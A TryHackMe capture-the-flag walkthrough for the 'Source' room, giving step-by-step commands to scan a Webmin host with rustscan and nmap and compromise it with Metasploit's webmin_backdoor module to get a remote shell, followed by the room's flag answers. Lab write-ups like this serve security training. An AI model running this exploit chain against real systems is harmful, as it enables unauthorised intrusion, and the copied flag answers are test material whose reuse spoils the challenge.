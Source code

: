 # ♦ Day 09
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [SOURCE](https://tryhackme.com/r/room/source) : 
   ⇨ Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. First we have to connect it to the TRYHACKME platform for that we have to go to the ***Acess*** in profile and then Download the open vpn file in ***.ovpn*** format.


### • 2. Connect to the Vpn using ***sudo openvpn >file that u downloaded<.ovpn***.

### • 3. Open a Different terminal 'Remember not to close the vpn file till the work is done' and scan the Ip that was generated by THM while starting the   machine and try saving the report by using ***RUSTSCAN***. </br>

  #### ***⇨*** { ***NOTE: Rustscan is much more efficient when we have to scan all the port in a fast manner,rustscan is upgraded version of nmap but it dont give all the dtails of open ports so we acn again use nap to scan open ports after we get the open ports from using rustscan*** }. </br>


## ◙ Difference between Nmap and RustScan.


|    Feature    |                    Nmap                   |               RustScan              |
| ------------- | ----------------------------------------- | ----------------------------------- |
|     Speed     | Slower due to comprehensive scanning      | Very fast, designed for quick scans |
|  Flexibility  | Highly flexible with many options         | Less flexible, focuses on speed     |
|  Programming  | Written in C                              | Written in Rust                     |
|     Usage     | Widely used for detailed network analysis | Best for quick port scanning        |
|  Installation | Available on most systems                 | Requires installation of Rust       | </br>



### • 4. Now Download the rustscan from its orignal website that is in github and here is the [LINK](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan-2.2.3-x86_64-linux.tar.xz). Then extract and install and u r ready to use it.

### • 5. Now let's set the room ip in ***/etc/hosts*** so we don't have to type ip everytime. 
    sudo nano /etc/hosts

### • 6. Scan for the open ports in the ip by rustscan and save it as rustscan-sv-sc-source.txt
     sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

as we can see it dont give us full details On the Open Ports so we will again use Nmap to scan the open ports we got from the rustscan.

### • 7. Now we will use the Nmap to scan all the known open ports.
    sudo nmap -p(port no.) -sV source.com

### • 8. As we obtainesd ports details from the upper scan now we will search for the spoloits feom search ***searchsploits*** Command so we got that its is a webmin fro mm yupper scan so we will do:
    seachsploit webmin


### • 9. And as it contains "Metasploit" as one of the sploits available so we will use ***msfconsole***.
    msfconsole

### • 10. And now we will search for the sploits for webmin in msfconsole.
    search webmin

### • 11. We hav eto select ***exploit/linux/http/webmin_backdoor*** whichever number it is in.

### • 12. Now we gotta see what informations are required to be filed to usee this sploit for tht we wioll use:
    show options 

### • 13. Now fill all the required infos
    set RHOSTS >the ip that was given by the room<

    set LHOST >the ip of ur vpn/tun0<

    set LPORT >the port u wanna use for this operation(tht port should be free/not alredy in use)<
  
  Also set SSL to true and AutoCheck false
  
    set SSL true 

    set AutoCheck false
  
 And BOOOOM! use ***exploit***
     
    exploit

now we are in target's system

# ♦ ANSWERS :

## ◙ TASK 1 :

⍰. User.txt </br>


  ⇨ THM{SUPPLY_CHAIN_COMPROMISE} 

  

⍰. root.txt </br>

  
  ⇨ THM{UPDATE_YOUR_INSTALL}
